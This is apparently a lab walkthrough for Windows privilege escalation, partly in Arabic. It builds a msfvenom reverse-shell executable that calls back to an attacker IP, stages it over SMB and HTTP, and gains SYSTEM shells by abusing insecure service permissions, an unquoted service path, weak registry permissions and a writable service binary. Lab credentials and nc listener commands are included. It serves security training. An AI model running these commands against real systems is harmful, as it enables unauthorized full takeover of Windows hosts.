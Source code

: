 # Windows PrivEsc

<img width="1907" height="364" alt="image" src="https://github.com/user-attachments/assets/82f1df6e-1dca-4555-bfea-af1faf6f0869" />


>[!note]
> ### Connect to Target using `RDP srvice enabled`:
>
> ```ruby
> xfreerdp3 /u:user /p:password321 /cert:ignore /v:10.10.103.25
> ```
> Or
> ```ruby
> rdesktop 10.10.103.25 -u user -p password321
> ```
> #### `if winrm service is enabled` :
> ```ruby
> evil-winrm -i 10.10.103.25 -u user -p 'password321'
> ```
> #### `if SMB service is enabled` :
> ```ruby
> smbclient //MACHINE_IP/C$ -U user
> ```

- <details>
     <summary>Nmap Scan</summary>

  ```ruby
  nmap -sC -sV  10.10.103.25 
  ```
  
  **`output`**
  
  ```ruby
  PORT     STATE SERVICE       VERSION
  135/tcp  open  msrpc         Microsoft Windows RPC
  139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
  445/tcp  open  microsoft-ds  Windows Server 2019 Standard Evaluation 17763 microsoft-ds
  3389/tcp open  ms-wbt-server Microsoft Terminal Services
  |_ssl-date: 2025-09-08T19:27:18+00:00; -2s from scanner time.
  | ssl-cert: Subject: commonName=WIN-QBA94KB3IOF
  | Not valid before: 2025-09-07T18:56:41
  |_Not valid after:  2026-03-09T18:56:41
  | rdp-ntlm-info: 
  |   Target_Name: WIN-QBA94KB3IOF
  |   NetBIOS_Domain_Name: WIN-QBA94KB3IOF
  |   NetBIOS_Computer_Name: WIN-QBA94KB3IOF
  |   DNS_Domain_Name: WIN-QBA94KB3IOF
  |   DNS_Computer_Name: WIN-QBA94KB3IOF
  |   Product_Version: 10.0.17763
  |_  System_Time: 2025-09-08T19:27:08+00:00
  5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
  |_http-title: Not Found
  |_http-server-header: Microsoft-HTTPAPI/2.0
  Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
  
  Host script results:
  | smb-security-mode: 
  |   account_used: guest
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  |_clock-skew: mean: 1h23m59s, deviation: 3h07m51s, median: -1s
  | smb-os-discovery: 
  |   OS: Windows Server 2019 Standard Evaluation 17763 (Windows Server 2019 Standard Evaluation 6.3)
  |   Computer name: WIN-QBA94KB3IOF
  |   NetBIOS computer name: WIN-QBA94KB3IOF\x00
  |   Workgroup: WORKGROUP\x00
  |_  System time: 2025-09-08T12:27:11-07:00
  | smb2-security-mode: 
  |   3:1:1: 
  |_    Message signing enabled but not required
  | smb2-time: 
  |   date: 2025-09-08T19:27:12
  |_  start_date: N/A
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 256.26 seconds
  ```
  
  - **`3389/tcp open  ms-wbt-server`** : That is mean `RDP service` is work
  - **`5985/tcp open  http`** : That is mean `WinRM HTTP service` is work
  - **`445/tcp  open  microsoft-ds`** : That is mean `SMB service` is work


     
  </details>



<details>
  <summary>Generate a Reverse Shell Executable</summary>

## 1. first Create **`Reverse Shell file`** on my kali device

```ruby
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

- **`msfvenom`** : Tool to create payload
- **`-p windows/x64/shell_reverse_tcp`** : Reverse shell type
- **`LHOST`** : Device IP that will recive the shell in this case will be my kali machine
- **`LPORT`** : port that shell will connect to it on kali
- **`-f exe`** : output file type `exe`
- **`-o reverse.exe`** : put the output in file call ``reverse.exe``

## 2. send reverse sell to windows

**`on kali Device open smb servrice on directory that have reverseshell file`**

```ruby
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

- **`kali`** : name share
- **`.`** : files that will avilable in the share here in current folder

**`on Windows Device`**

```ruby
copy \\10.8.47.102\kali\reverse.exe C:\PrivEsc\reverse.exe
```

- copy file from kali machine to windows


---

<img width="638" height="147" alt="image" src="https://github.com/user-attachments/assets/0fb8c918-0b43-445d-81ce-ba68f457888f" />


<img width="1441" height="449" alt="image" src="https://github.com/user-attachments/assets/dce924e7-a87f-4dff-af42-349654bc9647" />

- **`that is mean file is copied to windows`**

---

### **`now run the reverse file on windows with lesten on port 4444 on kali`**

<img width="715" height="307" alt="image" src="https://github.com/user-attachments/assets/6c150d81-145e-4b5f-b16d-8985d3ffaf89" />

- **`here we go we receved the shell `**


  
</details>









<details>
  <summary>Service Exploits</summary>




- <details>
      <summary>🟦Understanding</summary>

  
  ## ``1. know all services that work on system and it's privileges``
  
  # **`CMD`**
  
  ```ruby
  sc query type= service state= all
  ```
  
  # **`PowerShell`**
  
  ```ruby
  Get-Service | Select-Object Name, Status, StartType
  ```
  
  
  ---
  ---
  
  ## ``2. know the privilges of the user on each service``
  
  ```ruby
  accesschk.exe -uwcqv user *
  ```
  
  > you must download **`accesschk.exe`**
  > 

  https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk

  <details>
    <summary>send it to vectem</summary>
  
  ## **`using SMB`**
  
  **`on kali`**
  
  ```ruby
  sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
  
  ```
  
  **`on windows`**
  
  ```ruby
  copy \\10.10.10.10\kali\accesschk.exe C:\PrivEsc\accesschk.exe
  ```
  
  ----
  ----
  
  ## **`using Powershell`**
  
  **`on windows`** if device connected to internet
  
  ```ruby
  Invoke-WebRequest -Uri "http://10.10.10.10/accesschk.exe" -OutFile "C:\PrivEsc\accesschk.exe"
  ```
  
  **`on kali`**
  
  ```ruby
  python3 -m http.server 80
  ```
  
  
    
  </details>


  > by default it downloaded on this machine 





  ---
  ---
  
  ## 3. found the services that work as **`SYSTEM`**
  
  # **`CMD`**
  
  ```ruby
  sc qc <ServiceName>
  ```
  
  > - look at **`SERVICE_START_NAME`** value
  
  # **`PowerShell`**
  
  ```ruby
  Get-WmiObject Win32_Service | Select-Object Name, StartName
  ```


  </details>








- <details>
      <summary>Insecure Service Permissions</summary>

  
  > ### Goal is prevEsc form normal user to `SYSTEM privileges` by **`daclsvc`** service 
  
  ## 1. first check the pricvllage of current user on this service ``(daclsvc)``
  
  ```ruby
  C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
  ```
  
  - **`accesschk.exe`** : This is Tool form _Sysinternals_ to check on privilege of current user on (files, folders, etc...)
  - **`/accepteula`** : this option to pybaass the first priv window
  - **`-uwcqv`** : options
    - **`u`** : user account
    - **`w`** : writeing privileges
    - **`c`** : change `config` privileges
    - **`q`** : `quiet` to make it simple
    - **`v`** : `verbose` for more details
  - **`user`** : username of current user
  - **`daclsvc`** : service name
      
  
  ---
  
  <img width="584" height="296" alt="image" src="https://github.com/user-attachments/assets/c8ab3ba2-ad0a-4c86-99e3-ace3b7ce30fb" />
  
  ### - **`Found that user have`** :
  
  ```ruby
  SERVICE_CHANGE_CONFIG
  ```
  ### - ``Thats mean this user can change settings of this service``
  
  
  ---
  
  ## 2. now we want to know privileges of the current service
  
  ```ruby
  sc qc daclsvc
  ```
  
  - **`sc qc`** : query config for service
  - **`daclsvc`** : name of the service
  
  ---
  
  <img width="860" height="319" alt="image" src="https://github.com/user-attachments/assets/abec5e68-4f0c-439c-933e-79bc3f289979" />
  
  ### - we found :
  
  - **`SERVICE_START_NAME`** : the account that this service work with it
  - **`LocalSystem`** : that is mean if we run this service any program will run as **`SYSTEM`**
  
  
  
  ---
  
  > ### NOW WE know that :
  > - this service can work as **`SYSTEM`**
  > - current user can edit this service settings **`SERVICE_CHANGE_CONFIG`**
  
  
  ## 3. change the path of this service to path of our reverse shell that will send shell to kali with **`SYSTEM`** privileges : 
  
  ```ruby
  sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
  ```
  
  - **`sc config`** : change service settings
  - **`binpath=`** : the new path to that service will run it
  - **`\"C:\PrivEsc\reverse.exe\`** : reverse shell that we sent it before
  
  
  ### **`lesten on port 4444 on kali`**
  
  ### **`run the service`**
  
  <img width="677" height="212" alt="image" src="https://github.com/user-attachments/assets/ad7a133f-2592-45ba-9083-47dfb2ed716b" />
  
  ---
  
  ## receved the shell :
  
  <img width="719" height="210" alt="image" src="https://github.com/user-attachments/assets/7d36208c-ce01-4047-9eaf-04c855830e50" />
  
  ---
  
  ## see that we now **`SYSTEM`** user
  
  ```ruby
  whoami
  ```
  
  <img width="327" height="79" alt="image" src="https://github.com/user-attachments/assets/64e23bed-3b42-4219-8714-a256a4f0db96" />
  
  <details>
    <summary>more commands</summary>
  
  
  ## to see our privilleges
  
  ```ruby
  whoami /priv
  ```
  <img width="1282" height="624" alt="image" src="https://github.com/user-attachments/assets/a65ceb03-b5b5-4c09-a2fc-a2214f0ef8fc" />
  
  
  ## see the groups that i'm in : 
  
  ```ruby
  whoami /groups
  ```
  
  <img width="1158" height="249" alt="image" src="https://github.com/user-attachments/assets/c2689996-2809-4a2d-bec0-9508e3c0a142" />
  
  ```ruby
  systeminfo
  ```
  
  <img width="796" height="599" alt="image" src="https://github.com/user-attachments/assets/1ec7bb31-9838-41fd-8872-ffe6e0b1d56c" />
  
  ## to show all env variables: 
  
  ```ruby
  set
  ```
  
  <img width="1403" height="554" alt="image" src="https://github.com/user-attachments/assets/5a9fa26d-e836-4fe0-9ada-2372d7e46a96" />
  
  
    
  </details>
  
  
  > ## now the answer of the question :
  > What is the original BINARY_PATH_NAME of the daclsvc service?
  
  ```ruby
  sc qc daclsvc
  ```
  
  <img width="860" height="319" alt="image" src="https://github.com/user-attachments/assets/abec5e68-4f0c-439c-933e-79bc3f289979" />
  
  **`answer`**
  
  ```ruby
  C:\Program Files\DACL Service\daclservice.exe
  ```
  


  </details>













- <details>
      <summary>Unquoted Service Path</summary>

     
     
     > ## in windows each service has :
     > - **`BINARY_PATH_NAME`** : THE path with refer to the place that have **`exe`** that this service will run it
     >   - if it's value writen without ``"..."`` that mean we can exploit it
     
     
     ---
     
     ## 1. first get info about the service (unquotedsvc)
     
     ```ruby
     sc qc unquotedsvc
     ```
     
     ## - found two important things
     
     > - **`SERVICE_START_NAME : LocalSystem`** : that is mean this service work as **`SYSTEM`**
     > - **`BINARY_PATH_NAME        : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`**
     >>  - IT without ``"..."``
     
     
     <img width="883" height="262" alt="image" src="https://github.com/user-attachments/assets/888cae7d-e707-4a32-bf40-02b668d079b5" />
     
     ---
     
     ## 2. TRY To know the privilege of current user on this path
     
     ```ruby
     C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
     ```
     
     ## - **`RW BUILTIN\Users`** : that is mean any normal user can do read and write in this folder
     
     
     <img width="823" height="173" alt="image" src="https://github.com/user-attachments/assets/418384ed-aeff-4838-91b8-966a9933ba4d" />
     
     
     ---
     
     ## 3. move the reverse shell file to the new path with new name 
     
     
     ```ruby
     copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
     ```
     
     <img width="778" height="82" alt="image" src="https://github.com/user-attachments/assets/28249e57-c476-4664-b89f-7b136ef20544" />
     
     
     
     ## 4. open listener on kali
     
     ```ruby
     sudo nc -nvlp 4444
     ```
     
     ## 5. run the service 
     
     ```ruby
     net start unquotedsvc
     ```
     
     <img width="963" height="412" alt="image" src="https://github.com/user-attachments/assets/5b8eaba2-2421-4e4d-9d67-96e604910b74" />
     
     ---
     
     <img width="1646" height="214" alt="image" src="https://github.com/user-attachments/assets/c25163f8-d4d4-4446-94b9-6398e62bcc7d" />
     



  </details>















- <details>
      <summary> Weak Registry Permissions</summary>

     
     
     > ## in windows each service has settings stored in `Registry` like:
     > - **`SERVICE_START_NAME`** : who run the service
     > - **`BINARY_PATH_NAME`** : the excutable file that run when this service run
     
     
     ## 1. first get info about the service (regsvc):
     
     ```ruby
     sc qc regsvc
     ```
     
     ```c
       BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
       SERVICE_START_NAME : LocalSystem
     ```
     
     
     <img width="836" height="255" alt="image" src="https://github.com/user-attachments/assets/5019fb82-41c1-45f7-8983-dcd88310af44" />
     
     
     ## 2. check the privilege of this user to wirte on **`Registry`**
     
     ```ruby
     C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
     ```
     
     ```perl
     RW NT AUTHORITY\INTERACTIVE
           KEY_ALL_ACCESS
     ```
     
     ### - `that is mean any user have access to write on registry key of this service`
     
     
     <img width="797" height="192" alt="image" src="https://github.com/user-attachments/assets/88afff65-8a8a-4eaf-b3ad-ddc0cfedfbe0" />
     
     
     
     ## 3. edit Registry value and make it refer to our reverseshell file
     
     ```ruby
     reg add HKLM\SYSTEM\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
     ```
     
     - **`/v ImagePath`** : It determines that we change this particular value.
     - **`/t REG_EXPAND_SZ`** : Value type (String extended).
     - **`/d C:\PrivEsc\reverse.exe`** : New data (new path).
     - **`/f`** : (to not ask you for confirmation).
      
     
     ## 4. open Listener on kali
     
     ```ruby
     nc -nvlp 4444
     ```
     
     
     ## 5. run the service
     
     ```ruby
     net start regsvc
     ```
     
     
     <img width="995" height="568" alt="image" src="https://github.com/user-attachments/assets/0ae50a32-d149-46f3-98a6-4e17d9175224" />
     


     <details>
        <summary>الفرق بين daclsvc و regsvc Exploits</summary>
     
     
     
     
     
     ## الفرق بين daclsvc و regsvc Exploits
     
     
     الـ 2 إكسبلويت شبيهين في النتيجة (تشغيل ملفنا كـ SYSTEM)، لكن الاختلاف في **إيه اللي اتحكمنا فيه وإزاي**:
     
     ### 1️⃣ أول exploit (daclsvc)
     
     الأوامر:
     
     ```cmd
     sc qc daclsvc
     sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
     net start daclsvc
     ```
     
     * الخدمة أصلاً كانت بتشاور على ملف EXE في الـ `binpath`.
     * اليوزر عنده **SERVICE\_CHANGE\_CONFIG** → يقدر يعدّل إعدادات الخدمة باستخدام `sc config`.
     * غيّرنا الـ **binpath** بتاع الخدمة وخليّناه يشاور على ملفنا (reverse.exe).
     * لما شغّلنا الخدمة → الملف بتاعنا اتنفذ كـ SYSTEM.
     
     **الخلاصة**: استغلال صلاحية "تغيير إعدادات الخدمة" (config).
     
     ### 2️⃣ تاني exploit (regsvc)
     
     الأوامر:
     
     ```cmd
     accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
     reg add HKLM\SYSTEM\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
     net start regsvc
     ```
     
     * الخدمة (regsvc) بتشاور على المسار بتاعها من الريجستري (`ImagePath`).
     * عندنا صلاحية **كتابة على مفتاح الريجستري** ده (مش config بتاع الخدمة نفسها).
     * بدلنا قيمة الـ `ImagePath` في الريجستري وخليّناه يشاور على `reverse.exe`.
     * لما شغّلنا الخدمة → برضه ملفنا اتنفذ كـ SYSTEM.
     
     **الخلاصة**: استغلال صلاحية "كتابة في الريجستري" بدل "تغيير إعدادات الخدمة".
     
     ### الفرق الرئيسي:
     
     * **daclsvc**: عدّلنا إعدادات الخدمة باستخدام أمر `sc config` (بسبب صلاحية خدمة).
     * **regsvc**: عدّلنا **الريجستري** اللي الخدمة بتسحب منه الإعدادات (بسبب صلاحية على الريجستري).
     
     ---
     
     ## جدول مقارنة بين أنواع Service Exploits
     
     | نوع الاستغلال                 | المكان/الصلاحية المطلوب  | الطريقة                              | النتيجة                               |
     | ----------------------------- | ------------------------ | ------------------------------------ | ------------------------------------- |
     | DACL / Config Exploit         | SERVICE\_CHANGE\_CONFIG  | sc config تغيير binpath              | تشغيل ملف كـ SYSTEM                   |
     | Registry Exploit              | Write على Registry       | reg add لتغيير ImagePath             | تشغيل ملف كـ SYSTEM                   |
     | Unquoted Path Exploit         | Write على مجلد الخدمة    | وضع ملف باسم معين داخل مجلد غير مقفل | تشغيل الملف بصلاحيات SYSTEM عند start |
     | AlwaysInstallElevated Exploit | سياسات Windows Installer | تثبيت MSI خبيث                       | تشغيل كـ SYSTEM                       |
     | Weak Service Permissions      | أذونات ضعيفة على الخدمة  | sc config / binpath                  | تشغيل كـ SYSTEM                       |
     
     *ملاحظة*: كل الطرق السابقة تعتمد على أن الخدمة تعمل تحت SYSTEM أو حساب عالي الصلاحيات.
     
     
     ---


     # Windows Service Paths Explained
     
     ## 1️⃣ BINARY_PATH_NAME
     - ده الـ **path الحقيقي** للـ executable اللي السيرفيس هيشغله.
     - لما تعمل `sc config <service> binpath= "..."`، أنت فعليًا بتغير **المكان اللي النظام هيشغل منه البرنامج**.
     - أي تغيير هنا بيأثر على السيرفيس فورًا بعد إعادة التشغيل.
     
     ## 2️⃣ ImagePath
     - ده موجود في **Registry** تحت المسار:
       ```
       HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\<ServiceName>
       ```
     - القيمة دي هي نفسها `BINARY_PATH_NAME`، لأنها مجرد **طريقة Windows لتخزين path السيرفيس** في الريجستري.
     - عمليًا هما بيشاوروا لنفس الملف، لكن `ImagePath` موجود في الريجستري، و`BINARY_PATH_NAME` بيشتغل بيه `sc.exe`.
     
     ## 3️⃣ العلاقة بينهم
     - لو غيرت `BINARY_PATH_NAME` عن طريق `sc config` → النظام بيحدث الـ `ImagePath` في الريجستري تلقائي.
     - لو غيرت `ImagePath` مباشرة في الريجستري → السيرفيس مش هيعرف لحد ما تعمله restart أو تستخدم `sc` لتحديثه.
     
     ## 4️⃣ ليه في Exploit غيرنا `binpath`؟
     - الهدف كان **تشغيل الـ reverse shell الخاص بينا كخدمة**.
     - الأمر المستخدم:
       ```
       sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
       ```
     - ده بيخلي السيرفيس يشتغل بالـ executable بتاعنا بدل الأصلي.
     - وده أساسي في **privilege escalation** على Windows لأن السيرفيس بيشتغل بـ SYSTEM privileges.
     
     ## مثال تشبيهي
     - تخيل عندك دفتر (Registry) وورقة (BINARY_PATH_NAME) فيها نفس الرقم:
       - لو كتبت الرقم في الورقة → الدفتر بيتحدث تلقائي.
       - لو كتبت الرقم في الدفتر بس → الورقة مش هتعرف إلا لما تقول لها "حدّثي نفسك" (restart أو `sc`).
     
     
          
     
     
     
     
     </details>






  </details>














- <details>
      <summary>Insecure Service Executables</summary>

     
     ## 1. Query the service configuration
     
     ```ruby
     sc qc filepermsvc
     ```
     
     - **`sc`** : `(Service Control)` Tool in windows
     - **`qc`** : `(Query Configuration)` to get service settings
     
     ---
     
     ```ruby
             BINARY_PATH_NAME   : "C:\Program Files\File Permissions Service\filepermservice.exe"
             SERVICE_START_NAME : LocalSystem
     ```
     
     
     <img width="856" height="276" alt="image" src="https://github.com/user-attachments/assets/8def86f3-a0a7-4c06-9e67-bd75f5a2f2ba" />
     
     ---
     
     ## 2. Check file permissions with accesschk
     
     ```ruby
     C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
     ```
     
     - **`accesschk.exe`** : Tool from _Sysinternals_
     - **`/accepteula`** : It means "I agree to the user agreement" (required the first time).
     - **`-quvw`**
        - **`q`** : quiet
        - **`u`** : show user-specific permissions
        - **`v`** : `verbose` More detail
        - **`w`** : It focuses on write permissions (who has the authority to write to the file).
     - **`"C:\Program Files\File Permissions Service\filepermservice.exe"`** : The file whose permissions we want to see.
     
     ---
     
     ```ruby
      RW Everyone
             FILE_ALL_ACCESS
     ```
     
     ### - `🚨 that is mean every one on this system They have almost all the permissions on the file (read, write, modify, delete...).`
     
     
     
     <img width="923" height="268" alt="image" src="https://github.com/user-attachments/assets/71ec6c24-5cf3-4433-91dd-595bb89f31d8" />
     
     
     
     ## 3. Replace the service binary
     
     
     ```ruby
     copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
     ```
     
     - **`copy`** : File copy command.
     - **`C:\PrivEsc\reverse.exe`** : The reverse shell we created (our malicious file).
     - **`"C:\Program Files\File Permissions Service\filepermservice.exe"`** : The original file of the service.
     - **`/Y`** : He lets the copying happen without asking you, “Are you sure you want to overwrite?”
     
     
     <img width="886" height="135" alt="image" src="https://github.com/user-attachments/assets/549d2f3a-bbfa-478d-8937-8b2065bd3199" />
     
     
     ## 4. Start listener on Kali
     
     ```ruby
     nc -lvnp 4444
     ```
     
     ## 5. Start the service
     
     ```ruby
     net start filepermsvc
     ```
     
     - **`net`** : A Windows tool for managing networks and services.
     - **`start`** : Service run command.
     - **`filepermsvc`** : service name
     
     
     <img width="1003" height="272" alt="image" src="https://github.com/user-attachments/assets/9898c0ad-670a-4870-aa16-862b6406cdb2" />
     
     



  </details>
  



  
</details>












<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>





